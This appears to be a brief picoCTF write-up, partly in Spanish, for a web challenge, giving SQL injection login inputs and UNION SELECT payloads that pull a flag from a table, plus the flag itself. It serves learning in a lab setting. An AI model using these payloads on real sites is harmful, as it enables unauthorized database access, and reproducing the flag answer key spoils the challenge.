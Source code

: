 #### Description

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.


SOLUCION

````
username: juan' or 1=1;
password: juan
SQL query: SELECT id FROM users WHERE password = 'juan' AND username = 'juan' or 1=1;'


'union 1,2,3'

' union select id, flag,3 from more_table'

es una inyecccion de sql lite que ban deacuerdo al contexto de las tablas 

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```